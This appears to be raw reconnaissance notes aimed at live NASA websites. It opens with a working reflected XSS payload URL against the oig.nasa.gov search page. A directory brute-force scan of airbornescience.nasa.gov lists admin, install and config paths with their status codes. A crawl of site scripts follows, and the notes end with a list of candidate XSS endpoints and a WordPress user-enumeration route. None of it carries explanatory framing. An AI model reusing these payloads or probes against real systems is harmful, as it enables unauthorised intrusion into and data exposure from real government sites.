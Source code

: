 https://oig.nasa.gov/search/?search=%3Cimg%20alt=%22%3Cx%22%20title=%22/%3E%3Cimg%20src=x%20onerror=alert(1)%3E%22%3E


https://airbornescience.nasa.gov/program/documents



ift27038@tccho.com
ift27038@tccho.com

![[Pasted image 20240724001232.png]]














----ScanningURL:https://airbornescience.nasa.gov/----
+https://airbornescience.nasa.gov/0(CODE:200|SIZE:67298)
+https://airbornescience.nasa.gov/admin(CODE:403|SIZE:33397)
+https://airbornescience.nasa.gov/Admin(CODE:403|SIZE:33397)
+https://airbornescience.nasa.gov/ADMIN(CODE:403|SIZE:33397)
+https://airbornescience.nasa.gov/ajax(CODE:200|SIZE:26559)
+https://airbornescience.nasa.gov/archive(CODE:301|SIZE:0)
+https://airbornescience.nasa.gov/Archive(CODE:301|SIZE:0)
+https://airbornescience.nasa.gov/batch(CODE:403|SIZE:33370)
+https://airbornescience.nasa.gov/calendar(CODE:200|SIZE:52330)
+https://airbornescience.nasa.gov/categories(CODE:403|SIZE:33201)
+https://airbornescience.nasa.gov/cgi-bin/(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/contact(CODE:200|SIZE:37230)
+https://airbornescience.nasa.gov/Contact(CODE:200|SIZE:37230)
+https://airbornescience.nasa.gov/domain(CODE:302|SIZE:0)
+https://airbornescience.nasa.gov/faqs(CODE:200|SIZE:82895)
+https://airbornescience.nasa.gov/favicon.ico(CODE:200|SIZE:15086)
+https://airbornescience.nasa.gov/feedback(CODE:403|SIZE:33191)
==>DIRECTORY:https://airbornescience.nasa.gov/gitweb/
+https://airbornescience.nasa.gov/home(CODE:301|SIZE:241)
+https://airbornescience.nasa.gov/Home(CODE:301|SIZE:0)
+https://airbornescience.nasa.gov/hotel(CODE:403|SIZE:33176)
==>DIRECTORY:https://airbornescience.nasa.gov/includes/
+https://airbornescience.nasa.gov/index.html(CODE:301|SIZE:0)
+https://airbornescience.nasa.gov/index.php(CODE:200|SIZE:67298)
+https://airbornescience.nasa.gov/install.mysql(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/install.pgsql(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/links(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/Links(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/media(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/Media(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/meetings(CODE:403|SIZE:33191)
==>DIRECTORY:https://airbornescience.nasa.gov/misc/
+https://airbornescience.nasa.gov/mms(CODE:200|SIZE:37147)
==>DIRECTORY:https://airbornescience.nasa.gov/modules/
+https://airbornescience.nasa.gov/multimedia(CODE:403|SIZE:33201)
+https://airbornescience.nasa.gov/node(CODE:200|SIZE:49923)
+https://airbornescience.nasa.gov/outreach(CODE:403|SIZE:33191)
+https://airbornescience.nasa.gov/photos(CODE:403|SIZE:33181)
+https://airbornescience.nasa.gov/print(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/printmail(CODE:403|SIZE:33196)
+https://airbornescience.nasa.gov/printpdf(CODE:200|SIZE:4670)
==>DIRECTORY:https://airbornescience.nasa.gov/profiles/
+https://airbornescience.nasa.gov/program(CODE:403|SIZE:33186)
+https://airbornescience.nasa.gov/Program(CODE:403|SIZE:33186)
+https://airbornescience.nasa.gov/projects(CODE:403|SIZE:33191)
+https://airbornescience.nasa.gov/Projects(CODE:403|SIZE:33191)
+https://airbornescience.nasa.gov/region(CODE:403|SIZE:33181)
+https://airbornescience.nasa.gov/robots.txt(CODE:200|SIZE:2271)
+https://airbornescience.nasa.gov/Root(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/science(CODE:403|SIZE:33186)
==>DIRECTORY:https://airbornescience.nasa.gov/scripts/
+https://airbornescience.nasa.gov/search(CODE:302|SIZE:0)
+https://airbornescience.nasa.gov/Search(CODE:302|SIZE:0)
+https://airbornescience.nasa.gov/server-status(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/shipping(CODE:403|SIZE:33191)
==>DIRECTORY:https://airbornescience.nasa.gov/sites/
+https://airbornescience.nasa.gov/surveys(CODE:403|SIZE:33186)
+https://airbornescience.nasa.gov/team(CODE:403|SIZE:33171)
==>DIRECTORY:https://airbornescience.nasa.gov/themes/
==>DIRECTORY:https://airbornescience.nasa.gov/tracker/
+https://airbornescience.nasa.gov/user(CODE:200|SIZE:32373)
+https://airbornescience.nasa.gov/video(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/Video(CODE:403|SIZE:33176)
+https://airbornescience.nasa.gov/videos(CODE:403|SIZE:33181)
+https://airbornescience.nasa.gov/web.config(CODE:403|SIZE:199)
+https://airbornescience.nasa.gov/xmlrpc.php(CODE:200|SIZE:42)

----Enteringdirectory:https://airbornescience.nasa.gov/gitweb/----
==>DIRECTORY:https://airbornescience.nasa.gov/gitweb/static/

----Enteringdirectory:https://airbornescience.nasa.gov/includes/----



















https://airbornescience.nasa.gov
https://airbornescience.nasa.gov/sites/all/themes/custom/nasa/js/jquery.hoverIntent.min.js?sg22bl
https://airbornescience.nasa.gov/sites/all/modules/entityreference/js/entityreference.js?sg22bl
https://airbornescience.nasa.gov/sites/all/themes/custom/nasa/js/script.js?sg22bl
https://airbornescience.nasa.gov/sites/all/modules/jquery_update/js/jquery_position.js?v=0.0.1
https://airbornescience.nasa.gov/sites/all/themes/custom/nasa/js/front-page.js?sg22bl
https://airbornescience.nasa.gov/sites/all/themes/custom/nasa/js/jquery.jscrollpane.min.js?sg22bl
https://airbornescience.nasa.gov/sites/all/modules/antibot/js/antibot.js?sg22bl
https://airbornescience.nasa.gov/misc/form-single-submit.js?v=7.98
https://airbornescience.nasa.gov/sites/all/modules/jquery_update/js/jquery_browser.js?v=0.0.1
https://airbornescience.nasa.gov/misc/jquery.once.js?v=1.2
https://airbornescience.nasa.gov/misc/drupal.js?sg22bl
https://airbornescience.nasa.gov/misc/jquery-html-prefilter-3.5.0-backport.js?v=3.7.1
https://airbornescience.nasa.gov/misc/jquery-extend-3.4.0.js?v=3.7.1
https://airbornescience.nasa.gov/sites/all/libraries/jquery/jquery-migrate-3.4.1.js?v=3.4.1
https://airbornescience.nasa.gov/sites/all/libraries/jquery/jquery-3.7.1.min.js?v=3.7.1
https://airbornescience.nasa.gov/sites/all/themes/custom/nasa/favicons/site.webmanifest
https://www.nasa.gov/sitemap/sitemap_nasa.html
https://www.nasa.gov/open/index.html
https://www.nasa.gov/general/accessibility
https://www.nasa.gov/audience/formedia/features/communication_policy.html
https://www.nasa.gov/general/nasa-policy-on-the-release-of-information-to-news-and-information-media/
https://www.nasa.gov/about/contact/index.html
https://www.nasa.gov/wp-content/plugins/wp-parsely/build/loader.js?ver=71d37502d12f3838b80d
https://www.nasa.gov/_static/??-eJyNzk0OAiEMBeALyZCZGIwL41kqNgyTtigU/04vRheuxKR53Xyvqb2eTBRP9YjFLm3OFfP9swaOMixlZX8hwzFkUPzGPomiqNUZuVUECrx6gdIByAhcOpBRqtEUAmFHUr0leecfD2hkfCTpHS0zZDQl+QjU6J5342Yat5Nzbr08Abb5cLE=
https://www.nasa.gov/_static/??-eJyVjMEKhDAMRH9oa1yRogfZb8nWUqI1LSbu4t8rePHgQS/DMLw38M/GJVbPCjkugViAUdB8Y3KjAIp4FRC/Qz3Oq2H8UUClxJdjMcgLbn5GcuORxURPzIzBG2Kd06nu/mfq3raty6qxlR02GrtR0Q==
https://www.nasa.gov/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fwww.nasa.gov%2Fgeneral%2Fnasa-policy-on-the-release-of-information-to-news-and-information-media%2F
https://www.nasa.gov/general/accessibility/
https://www.nasa.gov/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fwww.nasa.gov%2Fgeneral%2Fnasa-policy-on-the-release-of-information-to-news-and-information-media%2F&format=xml
https://www.nasa.gov/_static/??-eJzTLy/QzcxLzilNSS3WzyrWT8ksLtEvS81LyS/SB0oV5OdUpmXm5ADVpBaV6OVm5ullFevo49FUlJqeClSbWJJfpFtUmleSmZtKjDYku/Aqz8jPzy6GqrDPtTU0NzK0NDIzMzPJAgApL0ov
https://oig.nasa.gov
https://oig.nasa.gov/_static/??-eJyVjMEKg0AMRH+oMVooiwfxW+J2WaJrdjFppX9foT2I9FAvw8wwb3At4LNYEMOSHpFFUUgJhpT9pEiqwRQ1bKM7LS8QenIk4yw/y2rUC/75mdhPH61mPkMWigFYbMk7e4L/TiCxHtP20s9d45r66m5168Y3tM5svQ==
https://www.nasa.gov/?p=40830
https://oig.nasa.gov/_static/??-eJyNzk0OAiEMBeALyZCZxUxcGM9SsWEgbVEo/p1ejC5ciUnzuvleU3s9mSCO6hGLjW3OFfP9swYOMsSysb+Q4eAzKH5jl0RR1OqK3CoCBV49T+kAZAQuHcgo1WjynrAjqd6SvPOPBzQwPpL0jpYVMpqSXABqdM+7cZnG7TTPyxyftwBwtA==
https://oig.nasa.gov/hotline.html
https://oigforms.nasa.gov/wp_cyberhotline.js
https://oigforms.nasa.gov/css/wp_jscript2.js
https://oigforms.nasa.gov/js/jquery-migrate-1.2.1.min.js
https://oigforms.nasa.gov/js/bootstrap.min.js
https://oigforms.nasa.gov/css/wp_style2.css
https://oigforms.nasa.gov/js/jquery-1.11.2.min.js
https://oigforms.nasa.gov/css/wp_admin-bar.min.css
https://oigforms.nasa.gov/css/wp_style3.css
https://oigforms.nasa.gov/css/wp_jscript.js
https://oigforms.nasa.gov/css/bootstrap.min.css
https://oig.nasa.gov/nasa-web-privacy-policy-and-important-notices/
https://oigforms.nasa.gov/a
https://oig.nasa.gov/nasa-oig-draft/foia-requests/
https://oig.nasa.gov/sitemap/
https://oigforms.nasa.gov/css/wp_style1.css
https://oig.nasa.gov/privacy
https://oigforms.nasa.gov/news/
https://oig.nasa.gov/office-of-investigations-reports/
http://oig.nasa.gov/nasa-oig-whistleblower-protection/
https://oigforms.nasa.gov/wp_cyberhotline.html/
https://oig.nasa.gov/_static/??-eJyVjMEKhDAMRH9oa3RBigfxW2ItJVrTYrIr/r2CFw8e9DIMw3sDazYusXpWyPEXiAUYBU0fk5sEUMSrgPgDGnDZDOOfAiolvh2LUT7w8DOSm84sZnpjZgzeEOuSLvXwu7mtbFV+bV02dtwBGnlRzA==
https://oig.nasa.gov/contact/
https://oig.nasa.gov/wp-content/plugins/nasa-blocks/build/blocks/table/style-index.css?m=1710275097g
https://oig.nasa.gov/?p=391383
https://oig.nasa.gov/wp-json/oembed/1.0/embed?url=https%3A%2F%2Foig.nasa.gov%2Fnasa-oig-whistleblower-protection%2F&format=xml
https://oig.nasa.gov/wp-json/oembed/1.0/embed?url=https%3A%2F%2Foig.nasa.gov%2Fnasa-oig-whistleblower-protection%2F
mailto:HQ-OIG-Counsel@mail.nasa.gov?subject=Whistleblower%20Protection%20Coordinator
https://oig.nasa.gov/docs/CH_34_ATTACHMENT_E.docx
https://oig.nasa.gov/nasa-oig-draft/hotline/
https://oig.nasa.gov/wp-json/wp/v2/topic/391383
https://oig.nasa.gov/?topic=nasa-oig-draft/nasa-oig-whistleblower-protection
https://oig.nasa.gov/nasa-oig-whistleblower-protection
https://oig.nasa.gov/wp-content/uploads/2024/01/ch-34-attachment-e.docx?emrc=66a286dff1d55?emrc=030eed
https://oig.nasa.gov/wp-content/uploads/2024/01/ch-34-attachment-e.docx?emrc=66a286dff1d55





# XSS

https://oig.nasa.gov/search/AirWatch/Login?search=
https://oig.nasa.gov/search/?search=
https://oig.nasa.gov/search/xmlrpc.php?search
` https://oig.nasa.gov/search/?search&rest_route=/wp/v2/users/`
 